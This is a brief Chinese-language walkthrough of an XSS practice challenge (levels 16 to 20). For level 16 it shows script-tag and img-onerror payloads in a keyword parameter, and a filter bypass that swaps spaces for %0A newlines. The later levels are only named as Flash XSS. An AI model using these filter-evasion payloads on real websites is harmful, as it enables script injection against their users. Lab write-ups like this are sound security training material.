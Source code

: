 ### level 16

尝试如下语句：

```
?keyword=<script>alert(1)</script>

?keyword=<img src=1 οnerrοr=alert('xss') >
```

发现script被注释，空格和/均被转义。

尝试使用%0A替换空格：

```
?keyword=<img%0asrc=1%0aonerror=alert(1)>
```

### level 17-20

flash XSS，与swf文件相关。

https://blog.csdn.net/qq_40929683/article/details/120422266